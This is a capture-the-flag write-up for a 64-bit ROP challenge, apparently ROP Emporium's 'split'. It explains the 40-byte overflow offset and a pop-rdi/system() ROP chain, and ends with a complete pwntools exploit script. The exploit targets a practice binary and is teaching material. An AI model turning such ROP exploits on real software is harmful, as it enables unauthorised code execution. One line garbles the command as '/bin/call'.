 And the ROP chain for 64bits is :  

* `ROP chain = offset_padding + pop_rdi_ret_gadget + bin_cat_command + system_addr`  

Now we just need to find the buffer overflow offset.

Now that we have the content of the RSP register, all it is left us to do to be able to find the `offset 40`

Now that we have the offset, the extra `pop rdi ; ret address (for 64bit users)`, the address for the `/bin/cat flag.txt` and the usefulFunction system call address (which is the function that we want to `jump` to because is the one that is going to execute the previously inject command to get us th flag) we are ready to create our exploit.

this script, I start by using the ELF functions to encapsulate the information about the ELF file given as an argument, the split in our case. Then, I created a process p that is responsible to launch the ELF file in the path, which is given as an argument. After this initialization process, it is time to create the payload.  

The idea is simple. We simply have to first add `the junk (a 40 bytes long random array of characters, in our case A)`. After this, because I am in a 64bit architecture I had to pass the argument `(/bin/call flag.txt)` to the system call in a register, to do so I added a `pop rdi ; ret ROPgadget address`, the one we discovered in step 5. Afterward, I had to add the system() call address in the `usefulFunction` to the payload. Making it like this:  

* `payload = 40 bytes of junk + pop_rdi_ret_address + bin_cat_address + system_call_address`

# Script

```python
from pwn import *

elf = ELF('split')                  #context.binary

p = process(elf.path)

#Prepare the payload
payload = b"A"*40                   #creates the junk part of the payload
payload += p64(0x4007c3)            #pop rdi ; ret address ROP chain. Necessary because we are 64bits
payload += p64(0x601060)            #The /bin/cat flag.txt
payload += p64(0x40074b)            #address to system call in usefulFunction

# Send the payload

print(payload)
p.sendline(payload)                 #send the payload to the process

response = p.recvall()              #gets all messages in the process
print(re.search("(ROPE{.*?})",response.decode()))

ROPE{a_placeholder_32byte_flag!}
```
